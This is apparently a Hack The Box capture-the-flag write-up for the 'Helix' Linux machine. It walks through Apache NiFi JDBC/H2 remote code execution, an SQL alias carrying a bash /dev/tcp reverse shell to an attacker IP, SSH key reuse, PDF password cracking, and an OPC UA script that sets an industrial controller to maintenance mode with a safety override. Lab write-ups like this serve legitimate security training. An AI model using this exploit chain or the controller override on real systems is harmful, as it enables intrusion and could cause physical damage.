









{HackTheBox_Machine_WriteUp}

---

| Machine Name | Helix        |
| ------------ | ------------ |
| OS           | Linux        |
| Difficulty   | Mediium      |
| IP Address   | 10.129.7.185 |
| Release Date | 9 MAY 2026   |
| Pwned Date   | 1  JUNE 2026 |

---

#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
   ###### 2.2  Service Enumeration
   ###### 2.3  Web Enumeration 
##### 3. Initial Access / Foothold
##### 4. Lateral Movement
###### 5. Privilege Escalation
###### 6. Proof's
##### 7. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the Helix machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). 


---

#### 2. Reconnaissance

##### 2.1 Port Scanning :

```
sudo nmap -sC -sV -p- 10.129.7.185 -oN nmap_scan_helix
```

Open Port Found :
Port : 22 & 80

Domain Discovered :
Helix.htb 

Added this to our /etc/hosts file.
##### 2.2 Service Enumeration :

As we have landed on the web server http://helix.htb/. There is nothing interesting on this so we look forward for any subdomain present on this or not.

Sub-Domain Enumeration :-

```
ffuf -u http://helix.htb/ -H "HOST: FUZZ.helix.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top-1-million-5000.txt
```

We found the Sub-Domain : flow.helix.htb also added this to /etc/hosts file.

---

#### 3. Initial Access

When have landed on http://flow.helix.htb/ which lead's us to nifi/ directory on server.This http://flow.helix.htb/nifi/ hosting apache nifi version 1.21.0.

I have check for vulnerability related to this version of apache nifi and found a exploitation manual on github which i have added in reference section os this wrietup. 

For Getting a shell on the server we have to add below things in nifi flow chart.I have followed the setp's from our resource section.

```
Database Connection URL :- jdbc:h2:mem:tempdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM "http://10.10.15.139:8080/shell.sql"

Database Driver Class Name :- org.h2.Driver

Database Driver Location :- work/nar/extensions/nifi-poi-nar-unpacked/NAR-INIF/boundled-dependencies/h2-2.1.214.jar
```

with the help of gemini i have got the script for getting reverse shell on system.

```
CREATE ALIAS IF NOT EXISTS SHEX AS $$
void shellexec(String cmd) throws Exception {
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", cmd});
} $$;
CALL SHEX('bash -i >& /dev/tcp/10.10.15.139/9001 0>&1');
```

This gives us the shell as nifi user.

---

#### 4. Lateral Movement

After getting shell on server as nifi user. I have used a linpeas.sh to check for any way to escalate my privilege to user operator on system.

Running linpeas.sh , exposed a private ssh key for user operator.
I copied that file and used to get shell on server as operator.

```
## For ssh into operator do this

sudo chmod 600 id_ed25519
sudo ssh -i id_ed25519 operator@helix.htb
```

Above process will give's us the shell as user : operator

**User.txt file Obatined.**

---

#### 5. Privilege Escalation

Obtaining root access on server.
For this i have checked that sudo -l gives us ability to run helix-maint-console without password. 

Before that,
I have noticed that their are two files on operator's home directory with the help of python3 on server we can create a temporary server and get that files on our machine.So i done that.

In this file's  one is image and another is pdf file. Pdf file is protected with password so i tried pdf2john here and what i have found the password for this pdf in rockyou.txt .

Using that password i have check the pdf and gave that pdf to gemini to analyse that for me and get note from that as we need this information to create a script to execute a sequence to achieve certain conditions. 

In image i have found that, it is a opc.tcp connection which is getting made on port 4840 in server.So i have forwarded my machines port 4840 to server port using ssh.

```
## port forwadring
ssh -L 4840:127.0.0.1:4840 -i id_ed25519 operator@helix.htb
```

Now, i ask gemini to create a script which help's me to trigger the condition which switches the machine's operational state to MAINTENANCE MODE. This is that script.

```
from opcua import Client
import time

url = "opc.tcp://127.0.0.1:4840/helix/"
client = Client(url)

try:
    client.connect()
    print("[+] Connected to OPC UA via tunnel")

    nodes = {}
    for parent_id in ["ns=2;i=2", "ns=2;i=11"]:
        for child in client.get_node(parent_id).get_children():
            nodes[child.get_browse_name().Name] = child

    nodes["Mode"].set_value("MAINTENANCE")
    nodes["TestOverride"].set_value(True)
    nodes["CalibrationOffset"].set_value(20.0)

    print("[+] Payload injected. Hazardous condition simulated!")
    time.sleep(5)

finally:
    client.disconnect()
```

The last step to get root access is now just hitting,

sudo /usr/local/sbin/helix-maint-console  it will handover us the root shell.

**Root.txt obtained.**

---

#### 6. Proof's




















---

#### 7. References

https://github.com/mbadanoiu/CVE-2023-34468/blob/main/Apache%20NiFi%20-%20CVE-2023-34468.pdf

---

{HackTheBox_Machine_WriteUp}
